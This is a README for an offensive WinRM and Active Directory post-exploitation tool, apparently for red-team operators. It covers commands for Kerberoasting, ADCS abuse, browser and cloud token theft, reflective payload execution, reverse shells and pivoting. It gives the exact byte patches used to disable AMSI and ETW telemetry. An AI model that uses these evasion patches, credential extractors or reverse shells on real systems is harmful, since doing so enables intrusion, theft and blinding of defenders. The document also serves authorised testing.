

# PwnRM v2.0 Operator Platform — Deep Technical Documentation

<div align="center">


**Advanced WinRM / Active Directory Post-Exploitation Platform (2026–2027 TTPs)**

[](01_architecture_and_core.md)
[](01_architecture_and_core.md)
[](02_identity_and_ad_abuse.md)
[](03_evasion_and_runtime_opsec.md)
[](06_security_boundaries_and_hardening.md)

</div>

---

## 1. Executive Architecture & System Index

PwnRM v2.0 is an operator-grade Active Directory post-exploitation platform engineered directly upon the native Microsoft PowerShell Remoting Protocol (**[MS-PSRP]**) and WS-Management (**[MS-WSMV]**) standards. Unlike legacy WinRM tools that function merely as unbuffered command wrappers or high-noise script uploaders, PwnRM v2.0 operates as an in-band operational framework featuring:
- **Zero-Binary In-Band SOCKS5 Multiplexing**: RFC 1928 proxy and TCP port forwarding channeled directly through chunked SOAP envelopes over HTTP (5985) or HTTPS (5986).
- **Multi-Session Jump Graph Orchestration**: Stateful management and concurrent fan-out execution across distributed AD infrastructure nodes.
- **Deep Identity Exploitation Engines**: Full ADCS ESC1–ESC17+ auditing, WSUS code signing policy abuse, Diamond Ticket generation, Server 2025 dMSA/BadSuccessor analysis, and Hybrid Entra ID WAM PRT token extraction.
- **Memory-Only In-Process Blinding**: Polymorphic `AmsiScanBuffer` disassembly patching, `ntdll!EtwEventWrite` return-zero silencing, and dynamic D/Invoke reflection bypassing `csc.exe` and `Add-Type` disk drops.
- **7-Gate Deterministic Hardening**: Robust client-side protection preventing rogue server exploitation, path traversal, terminal hijacking, and OOM denial-of-service.



---

## 2. Platform Capability Comparison Matrix

| Feature / Attack Vector | Evil-WinRM | CrackMapExec / NetExec | Impacket (wmiexec/smbexec) | **PwnRM v2.0** |
|---|---|---|---|---|
| **Underlying Wire Protocol** | Ruby WinRM (SOAP CLI) | Python SMB / WinRM raw | DCE/RPC over SMB / WMI | **Native [MS-PSRP] Runspace Multiplexer** |
| **Pivoting & SOCKS5** | [-] None (Requires external agent) | [-] None | [-] None | **[+] Zero-Binary In-Band SOCKS5 & Port Forward** |
| **Session Graph & Multi-Node** | [-] Single session | [!] Mass command execution only | [-] Single execution per turn | **[+] Stateful Jump Graph + Non-blocking Fan-out** |
| **ADCS Auditing** | [-] None | [!] Basic Certipy integration | [-] None | **[+] Native In-Memory ESC1–ESC17+ & WSUS Engine** |
| **Kerberos Mechanics** | [!] Basic ccache ticket use | [!] Standard Kerberoasting | [!] Impacket Kerberos suite | **[+] Diamond Ticket, AES256, dMSA/BadSuccessor** |
| **Hybrid Entra ID & WAM** | [-] None | [-] None | [-] None | **[+] WAM PRT token hunt, CloudAP, Azure CLI/PS** |
| **In-Memory BloodHound** | [-] Must drop SharpHound | [-] Requires LDAP credentials | [-] None | **[+] 100% Memory-Only ADSI/LDAP (v5 CE Schema)** |
| **AMSI / ETW Telemetry Blinding** | [!] Static string bypasses | [-] None | [-] None | **[+] Polymorphic Opcode Patch & D/Invoke** |
| **OPSEC Traffic Shaping** | [-] None | [-] None | [-] None | **[+] Configurable Jitter, User-Agent & AST Splitting** |
| **Client-Side Hardening** | [-] Vulnerable to Traversal / OOM | [-] Vulnerable to rogue targets | [-] Vulnerable to path injection | **[+] 7-Gate Security Boundary Enforcement** |
| **Payload Delivery Security** | [!] Plaintext Base64 | [!] Plaintext Base64 | [!] Plaintext SMB staging | **[+] Dynamic Stream XOR Encryption + MD5 Trailer** |
| **Programmatic API** | [-] CLI only | [!] Python library wrapper | [!] Python RPC wrappers | **[+] Decoupled Async Generator Engine (Runspace)** |

---

## 3. Deep Technical Documentation Roadmap

The PwnRM technical documentation suite is organized into 6 dedicated architecture manuals covering the platform from wire-framing to kernel execution:

```
docs/
├── README.md                                     ← You are here (Platform Master Index & Guide)
├── 01_architecture_and_core.md                   ← MS-PSRP Wire Protocol, Transports, SOCKS5, Sessions
├── 02_identity_and_ad_abuse.md                   ← ADCS ESC1-ESC17+, Kerberos PAC, dMSA, Entra ID, DPAPI
├── 03_evasion_and_runtime_opsec.md               ← NT Telemetry, AMSI/ETW Patching, D/Invoke, EDR Matrix
├── 04_collection_lateral_playbooks.md            ← Memory BloodHound v5, Lateral Scout, Playbook Engine
├── 05_api_and_c2_integration.md                 ← Python API Reference, Custom Modules, Headless C2
└── 06_security_boundaries_and_hardening.md       ← 7-Gate Hardening, Path Regex, SSRF & OOM Defense
```

### Quick Overview of Technical Documents:

1. [**`01_architecture_and_core.md`**](01_architecture_and_core.md)
   - Low-level **[MS-WSMV]** SOAP envelope structure, **[MS-PSRP]** 21-byte binary fragment headers (§2.2.4), and complete PSRP message types taxonomy with hex opcodes.
   - SPNEGO NTLM Extended Protection for Authentication (EPA / Channel Binding Token MD5 derivation over TLS server certificate SHA-256 digests).
   - Kerberos GSS-API RFC 4121 Wrap Token structure (`0x0504` headers, AES256 subkeys, multipart encrypted boundaries).
   - CredSSP (TSSSP) 3-phase TLS credential delegation mechanics for solving the multi-hop problem.
   - RFC 1928 In-Band SOCKS5 proxy multiplexer and non-blocking TCP socket state machines.
   - Multi-session jump graph topology, session state serialization (`0o600`), hardened loot directory layout, and OPSEC traffic shaping profiles.

2. [**`02_identity_and_ad_abuse.md`**](02_identity_and_ad_abuse.md)
   - Complete Active Directory Certificate Services (**ADCS**) vulnerability taxonomy covering **ESC1 through ESC17+** with OIDs, bitmasks, and LDAP search filters.
   - **ESC17** WSUS Code Signing template injection and client registry policy abuse (`AcceptTrustedPublisherCerts = 1`).
   - Deep Kerberos PAC binary structures ([MS-PAC] §2: `PAC_LOGON_INFO`, `PAC_SERVER_CHECKSUM`, `PAC_PRIVSVR_CHECKSUM`).
   - **Diamond Ticket** crafting workflow vs KDC anomaly heuristics, Silver/Golden/Sapphire comparisons.
   - Windows Server 2025 Delegated Managed Service Accounts (**dMSA**) and `BadSuccessor` takeover paths.
   - Hybrid Entra ID Web Account Manager (**WAM**) token hunting, `CloudAP.dll`, and developer credential cache extraction.
   - DPAPI Master Key derivation hierarchy and Chromium v80+ AES-256-GCM `Login Data` decryption step-by-step.

3. [**`03_evasion_and_runtime_opsec.md`**](03_evasion_and_runtime_opsec.md)
   - Multi-tier telemetry hierarchy: User-mode hooks, NT native APIs, kernel-mode callbacks, and ETW-TI.
   - In-process polymorphic memory patching for `amsi.dll!AmsiScanBuffer` (`mov eax, 0x80070057; ret`) and `ntdll.dll!EtwEventWrite` (`xor eax, eax; ret 0x14`).
   - `VirtualProtect` memory page transitions (`PAGE_EXECUTE_READ` <-> `PAGE_EXECUTE_READWRITE`) to defeat Moneta and PE-sieve memory scanners.
   - Dynamic Reflection & **D/Invoke** engine resolving Win32 APIs from unmanaged memory without invoking `csc.exe` or dropping temporary files.
   - Comprehensive **10+ EDR Driver Callback Matrix** (`csagent.sys`, `SentinelAgent.sys`, `WdFilter.sys`, `atp.sys`, `edpa.sys`, `cbk7.sys`, `sysmon.sys`, etc.).
   - Raw Win32 Winsock reverse shell handles directly bound to `cmd.exe` bypassing PowerShell command logging.

4. [**`04_collection_lateral_playbooks.md`**](04_collection_lateral_playbooks.md)
   - 100% memory-only ADSI/LDAP directory traversal emitting **BloodHound Community Edition (v5)** JSON schema without SharpHound disk drops.
   - Chunked LDAP search paging (`PageSize = 500`) to defeat Microsoft Defender for Identity (MDI) query threshold heuristics.
   - Subnet Scout non-blocking asynchronous TCP socket probing (WinRM 5985/5986, SMB 445, RPC 135, RDP 3389).
   - Declarative Playbook Automation DSL (`default_triage`, `ad_recon`, `stealth_audit`) with step-by-step conditional error handling.
   - In-memory dynamic XOR stream cipher: Plain[i] ^ ((i*17 + 0x5A) % 256) and MD5 integrity trailer verification.

5. [**`05_api_and_c2_integration.md`**](05_api_and_c2_integration.md)
   - Complete Python library class diagrams and programmatic API reference (`Runspace`, `Transport`, `SessionManager`, `Socks5Server`, `LootManager`).
   - Real-time streaming generator consumption patterns for stdout, stderr, warnings, verbose, and progress streams.
   - Custom module development tutorial inheriting from `BaseModule` with argument parsing, UI styling, and loot persistence.
   - Headless C2 agent embedding architecture for Mythic, Havoc, and custom Python C2 frameworks.

6. [**`06_security_boundaries_and_hardening.md`**](06_security_boundaries_and_hardening.md)
   - Adversarial threat model protecting operators against honeypots, rogue WinRM servers, and network-level attackers.
   - **7 Deterministic Security Boundary Gates**:
     1. SSRF & Redirect Blocker (`max_redirects = 0`, `trust_env = False`).
     2. Application-Layer OOM Denial-of-Service Defense (1MB sync cap, 256MB download cap, 16MB fragment cap).
     3. Server-Returned Path Traversal & Injection Defense (`_validate_remote_path` regex whitelist).
     4. PowerShell String Parsing Context Differentials (`_pse` single-quote vs `_pde` double-quote escaping).
     5. Terminal ANSI & VT100 Escape Sanitization (`strip_ansi` CSI/OSC/DCS filtering).
     6. Multi-Tenant NTFS ACL Blindspot Hardening (`icacls` DACL inheritance stripping).
     7. Atomic File & Temp Directory Creation (`O_CREAT | O_EXCL`, `0o600`).

---

## 5. Master Command Encyclopedia & Operator Handbook

```
========================================================================================================
                                     PWNRM V2.0 COMMAND ENCYCLOPEDIA
========================================================================================================
```

### 5.1 Multi-Session & Transport Pivoting

#### `!session`
- **Syntax**: `!session <list | switch <ID> | save | exec-all <CMD>>`
- **Subsystem**: `pwnrm.core.session_mgr.SessionManager`
- **OPSEC Tier**: 🟢 **Low** (Local operator state management; `exec-all` generates multi-endpoint traffic)
- **Detailed Explanation**: Manages the local jump graph and active PSRP runspaces.
  - `!session list`: Renders a formatted tabular overview of all connected sessions, active session pointers (`[*]`), target IP/hostname, authentication method, latency, and creation timestamps.
  - `!session switch <ID>`: Swaps the active interactive console context to session ID `<ID>`, updating the remote working directory context (`cwd`).
  - `!session save`: Atomically serializes the active topology, credentials, and state graph to `~/.pwnrm/sessions/sessions.json` with `0o600` permissions.
  - `!session exec-all <CMD>`: Non-blocking fan-out execution of `<CMD>` across all active session nodes, tagging and isolating stdout/stderr per host.

#### `!socks`
- **Syntax**: `!socks [PORT] | !socks stop | !socks status`
- **Subsystem**: `pwnrm.core.tunnel.Socks5Server`
- **OPSEC Tier**: 🟡 **Medium** (Generates remote TCP connections originating from `wsmprovhost.exe`)
- **Detailed Explanation**: Initializes a zero-binary, in-band RFC 1928 SOCKS5 proxy on the operator machine (default port `1080`). All client requests (e.g. via `proxychains`, web browsers, or internal tooling) are multiplexed through the active PSRP connection and executed via in-memory .NET socket streams on the target machine without dropping standalone binary proxies.

#### `!portfwd`
- **Syntax**: `!portfwd <LPORT> <RHOST>:<RPORT> | !portfwd list | !portfwd stop <ID>`
- **Subsystem**: `pwnrm.core.tunnel.PortForwarder`
- **OPSEC Tier**: 🟡 **Medium**
- **Detailed Explanation**: Creates a dedicated local TCP port listener on `<LPORT>` that tunnels all inbound traffic directly through the remote PSRP stream to target destination `<RHOST>:<RPORT>` inside the target's internal network.

---

### 5.2 Active Directory & Identity Exploitation

#### `!adcs`
- **Syntax**: `!adcs [-q | --template <NAME> | --ca <CA_NAME> | --alt <SAN> | --wsus]`
- **Subsystem**: `pwnrm.modules.adcs.ADCSModule`
- **OPSEC Tier**: 🟡 **Medium** (Performs standard LDAP queries against the Configuration Naming Context)
- **Detailed Explanation**: Comprehensive PKI vulnerability triage engine auditing **ESC1 through ESC17+**:
  - `-q` / `--quick`: Rapid scan evaluating template enrollment flags and SAN specifications.
  - `--template <NAME>`: Deep attribute and ACL inspection for a specific certificate template.
  - `--alt <SAN>`: Constructs certificate request artifacts testing enrollee-supplied SAN mappings.
  - `--wsus`: Audits **ESC17** by inspecting enterprise Code Signing templates (`1.3.6.1.5.5.7.3.3`) and querying target registry keys (`HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU\AcceptTrustedPublisherCerts`) to identify WSUS MITM code execution vectors.

#### `!kerberos`
- **Syntax**: `!kerberos [--roast | --asrep | --dmsa | --spn <SPN>]`
- **Subsystem**: `pwnrm.modules.kerberos.KerberosModule`
- **OPSEC Tier**: 🟡 **Medium** (Kerberoasting requests TGS tickets from KDC; Event ID 4769)
- **Detailed Explanation**: Advanced Kerberos security suite:
  - `--roast`: Enumerates all user accounts with `servicePrincipalName` set and requests AES256/RC4 TGS service tickets for offline cracking (Hashcat mode 13100 / 19700).
  - `--asrep`: Identifies accounts with `DONT_REQ_PREAUTH` enabled and extracts AS-REP ciphertext (Hashcat mode 18200).
  - `--dmsa`: Scans Windows Server 2025 Delegated Managed Service Accounts (`msDS-ManagedAccount`) to identify `BadSuccessor` privilege escalation paths and delegation flaws.

#### `!entra`
- **Syntax**: `!entra [-s | --tokens | --wam]`
- **Subsystem**: `pwnrm.modules.entra.EntraModule`
- **OPSEC Tier**: 🟢 **Low** to 🟡 **Medium**
- **Detailed Explanation**: Hybrid Azure AD / Entra ID identity hunter:
  - Enumerates device join status (`AzureAdJoined`, `DomainJoined`, `TenantId`) via `dsregcmd /status`.
  - Searches Web Account Manager (WAM) caches (`Microsoft.AAD.BrokerPlugin`) for Primary Refresh Tokens (PRT).
  - Extracts developer access tokens and refresh tokens from Azure CLI (`accessTokens.json`) and Azure PowerShell (`AzureRmContext.json`).

#### `!creds`
- **Syntax**: `!creds [--vault | --dpapi | --history | --all]`
- **Subsystem**: `pwnrm.modules.creds.CredsModule`
- **OPSEC Tier**: 🟡 **Medium**
- **Detailed Explanation**: In-memory credential and secrets collector:
  - `--vault`: Enumerates Windows Credential Manager and Vault objects.
  - `--dpapi`: Extracts user DPAPI master key GUIDs and decrypts Chromium (Chrome/Edge) SQLite databases (`Login Data`) using AES-256-GCM without touching disk.
  - `--history`: Inspects PowerShell `ConsoleHost_history.txt` across all user profiles.

#### `!bloodhound`
- **Syntax**: `!bloodhound [-c <CollectionMethods>]`
- **Subsystem**: `pwnrm.modules.bloodhound.BloodHoundModule`
- **OPSEC Tier**: 🟡 **Medium** (Chunked LDAP queries with `PageSize=500` to prevent volumetric alerts)
- **Detailed Explanation**: 100% memory-only Active Directory graph collector utilizing .NET `System.DirectoryServices`. Iterates Users, Computers, Groups, OUs, and Domain Trusts, assembling BloodHound Community Edition (v5) JSON datasets directly in RAM and streaming them back to the operator's loot repository.

#### `!lateral`
- **Syntax**: `!lateral [--subnet <CIDR> | --ports <P1,P2..>]`
- **Subsystem**: `pwnrm.modules.lateral.LateralModule`
- **OPSEC Tier**: 🟠 **High** (Performs network TCP socket probing across subnet segments)
- **Detailed Explanation**: Subnet scout and lateral movement qualifier. Inspects the local host's active routing table and executes non-blocking asynchronous TCP socket probes (ports 5985, 5986, 445, 135, 3389) to catalog neighboring targets for lateral pivoting.

#### `!adtriage`
- **Syntax**: `!adtriage [-q]`
- **Subsystem**: `pwnrm.shell.adtriage`
- **OPSEC Tier**: 🟡 **Medium**
- **Detailed Explanation**: Comprehensive Active Directory domain situational awareness executed entirely in RAM:
  - Discovers Domain Controllers, Forest functional levels, Kerberos realm names, and Domain Trusts.
  - Audits high-value groups (`Domain Admins`, `Enterprise Admins`, `Schema Admins`, `Account Operators`).
  - Enumerates Kerberoastable accounts, `DONT_REQ_PREAUTH` accounts, and Unconstrained/Constrained/RBCD delegation configurations.
  - Flags weak ACLs over Domain Controllers and the `krbtgt` account.

#### `!shares`
- **Syntax**: `!shares [-q] [HOSTS..]`
- **Subsystem**: `pwnrm.shell.shares`
- **OPSEC Tier**: 🟡 **Medium**
- **Detailed Explanation**: SMB share discovery and sensitive file hunter:
  - Enumerates local and remote SMB shares via `Win32_Share`.
  - Probes UNC read and write access across discovered shares.
  - Sweeps SYSVOL / NETLOGON policies for Group Policy Preferences (GPP) `cPassword` artifacts (CVE-2014-1812).
  - Inspects active SMB sessions (`net session`) and open remote files (`net files`).

#### `!sessions`
- **Syntax**: `!sessions [-q]`
- **Subsystem**: `pwnrm.shell.sessions`
- **OPSEC Tier**: 🟢 **Low**
- **Detailed Explanation**: Host session and network socket inspection:
  - Lists interactive, remote, and service logon sessions via `Win32_LogonSession`.
  - Extracts RDP client MRU history and saved server connections from registry keys.
  - Dumps cached Kerberos tickets via `klist` highlighting active TGTs.
  - Catalogs established TCP connections with PID attribution and listening service ports (RDP, MSSQL, WinRM).

---

### 5.3 Evasion, Runtime OPSEC & Execution

#### `!evasion` / `!amsi`
- **Syntax**: `!evasion [--edr | --amsi | --etw | --all]` or `!amsi`
- **Subsystem**: `pwnrm.modules.evasion.EvasionModule`
- **OPSEC Tier**: 🟢 **Low** (In-process memory modification; defeats downstream ScriptBlock logging)
- **Detailed Explanation**:
  - `--amsi` / `!amsi`: Dynamically resolves `amsi.dll!AmsiScanBuffer`, transitions page protection to `PAGE_EXECUTE_READWRITE`, applies a polymorphic `E_INVALIDARG` (`0x80070057`) return patch, and restores `PAGE_EXECUTE_READ`.
  - `--etw`: Patches `ntdll.dll!EtwEventWrite` with `xor eax, eax; ret 0x14` to neutralize all user-mode event tracing (PowerShell ScriptBlock Event 4104).
  - `--edr`: Queries loaded kernel drivers (`driverquery /v`, `Win32_SystemDriver`) to identify installed security sensors (`csagent.sys`, `SentinelAgent.sys`, `WdFilter.sys`, etc.).

#### `!playbook`
- **Syntax**: `!playbook [--list | --run <NAME> | --file <PATH>]`
- **Subsystem**: `pwnrm.modules.playbook.PlaybookModule`
- **OPSEC Tier**: Dependent on playbook steps
- **Detailed Explanation**: Declarative assessment workflow runner. Executes automated YAML/JSON playbooks (`default_triage`, `ad_recon`, `stealth_audit`) with step-by-step conditional error handling and structured loot harvesting.

#### `!opsec`
- **Syntax**: `!opsec [stealth | balanced | aggressive | hybrid-cloud]`
- **Subsystem**: `pwnrm.core.opsec.OpsecManager`
- **OPSEC Tier**: 🟢 **Low**
- **Detailed Explanation**: Configures runtime traffic shaping, User-Agent header rotation, jitter delay distributions (`jitter_sleep`), and command chunking parameters.

#### `!psrun` & `!netrun`
- **Syntax**: `!psrun [-xor] <URL | FILE>` / `!netrun [-xor] <URL | FILE> [ARGS..]`
- **Subsystem**: `pwnrm.shell.commands`
- **OPSEC Tier**: 🟡 **Medium** (Executes in RAM without creating `csc.exe` or temporary files)
- **Detailed Explanation**:
  - `!psrun`: In-memory execution of remote or local PowerShell ScriptBlocks.
  - `!netrun`: Reflective in-memory execution of compiled .NET assemblies (`[System.Reflection.Assembly]::Load()`) via D/Invoke without touching disk. Optional `-xor` flag enables stream decryption.

#### `!revshell`
- **Syntax**: `!revshell <IP> <PORT>`
- **Subsystem**: `pwnrm.shell.commands`
- **OPSEC Tier**: 🟠 **High** (Creates outbound TCP socket to operator listener)
- **Detailed Explanation**: Deploys an unmanaged Win32 Winsock reverse shell executing `cmd.exe` directly attached to the socket descriptor via D/Invoke, bypassing PowerShell command logging and ScriptBlock telemetry.

#### `!upload` & `!download`
- **Syntax**: `!upload [-xor] <LPATH> [RPATH]` / `!download <RPATH> [LPATH]`
- **Subsystem**: `pwnrm.shell.pwnshell`
- **OPSEC Tier**: 🟡 **Medium**
- **Detailed Explanation**:
  - `!upload`: Streams local files to the remote target in chunked base64 buffers. The optional `-xor` flag dynamically encrypts bytes on the wire.
  - `!download`: Pulls remote files or directories. Directories are compressed into an in-memory ZIP archive on the target, streamed in 64 KB chunks, capped at 256 MB, and validated against an appended MD5 trailer before saving.

#### `!sysinfo`, `!loot`, `!log`, `!stoplog`
- **Syntax**: Standard management commands
- **Subsystem**: `pwnrm.core.*`
- **OPSEC Tier**: 🟢 **Low**
- **Detailed Explanation**:
  - `!sysinfo`: Gathers operating system build, installed hotfixes, local administrators, network adapters, and running AV products.
  - `!loot`: Displays all harvested credentials, tickets, and certificates structured per target host.
  - `!log` / `!stoplog`: Enables/disables plaintext session transcript logging with ANSI escape stripping.

---

## 6. CLI Quickstart & Authentication Vectors

```bash
# 1. Standard Password Authentication (HTTP port 5985)
pwnrm -u Administrator -p 'P@ssw0rd123!' 192.168.1.10

# 2. Pass-the-Hash (NTLM Hash via SPNEGO)
pwnrm -u Administrator -H :aad3b435b51404eeaad3b435b51404ee dc01.corp.local

# 3. Kerberos Authentication via .ccache ticket
pwnrm -u administrator@CORP.LOCAL -k --ccache /tmp/krb5cc_1000 dc01.corp.local

# 4. ADCS Certificate / Mutual TLS (HTTPS port 5986 via PKCS#12)
pwnrm -u administrator@CORP.LOCAL --pfx cert.pfx --pfx-pass Secret123! https://dc01.corp.local:5986

# 5. CredSSP Authentication (Solving Multi-Hop Delegation)
pwnrm -u admin -p 'P@ss' --credssp dc01.corp.local

# 6. Non-Interactive Single Command Execution
pwnrm -u admin -p 'P@ss' dc01.corp.local -X "whoami /priv"
```

---

## 7. Troubleshooting & Operator Diagnostics

| Symptom / Error | Root Cause | Operator Remediation |
|---|---|---|
| `TransportError: Stream exceeded size cap (1048576 bytes)` | Remote command output exceeded 1MB synchronous buffer cap (`Gate 2`). | Use targeted filtering (e.g. `Select-Object -First 20`) or stream results via `!download` or Python API generator. |
| `ValueError: Remote path failed safety validation` | Target WinRM server returned path containing directory traversal or shell metacharacters (`Gate 3`). | Target may be a honeypot or compromised server attempting GHSA-x4cv client exploitation; inspect raw response. |
| `Kerberos KRB_AP_ERR_SKEW` | Clock skew between operator machine and Domain Controller exceeds 300 seconds. | Synchronize local clock with target DC: `sudo ntpdate <DC_IP>` or `w32tm /resync`. |
| `WinRM HTTP 401 Unauthorized` | Invalid credentials, account disabled, or NTLM disabled by GPO. | Verify credentials; test Kerberos authentication with `-k` or check if user is in `Remote Management Users` group. |
| `WinRM Connection Refused (Port 5985/5986)` | WinRM service stopped or firewall blocking ports. | Ensure WinRM is listening on target: `winrm quickconfig` or `Enable-PSRemoting -Force`. |
| `AMSI Detection Triggered on ScriptBlock` | Microsoft Defender evaluated payload prior to JIT compilation. | Run `!amsi` or `!evasion --amsi` immediately upon session start before issuing advanced commands. |
